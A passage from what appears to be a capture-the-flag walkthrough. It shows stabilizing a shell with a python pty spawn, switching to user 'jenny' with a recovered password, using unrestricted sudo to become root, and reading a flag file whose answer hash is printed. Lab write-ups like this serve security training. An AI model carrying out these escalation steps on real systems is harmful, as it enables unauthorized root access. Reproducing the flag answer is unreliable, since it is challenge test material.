 * Let's stabilize the shell and switch user to `jenny`.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ 
```

* Let's check what `sudo` commands `jenny` can execute.

```
jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```

* We have permissions to switch user to `root`.

### No answer needed

###

### Become root!

```
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# 
```

### No answer needed



###

### Read the flag.txt file inside the Reptile directory

* Let's read the flag.txt file inside the Reptile directory.

```
root@wir3:/# cat /root/Reptile/flag.txt
cat /root/Reptile/flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```

### Answer

```
ebcefd66ca4b559d17b440b6e67fd0fd
```
